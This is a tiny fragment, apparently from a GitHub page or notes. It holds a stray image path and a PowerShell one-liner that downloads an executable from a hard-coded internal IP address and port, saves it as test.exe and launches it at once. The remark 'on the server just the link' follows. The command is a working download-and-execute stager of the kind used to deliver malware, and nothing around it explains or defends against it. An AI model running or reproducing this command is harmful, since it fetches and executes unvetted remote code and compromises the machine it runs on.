 Invoke-WebRequest -Uri http://192.168.1.140:3232/4ac5d816227cbfba9580a510af5272e2 -OutFile test.exe; Start-Process .\test.exe



on the server just the link
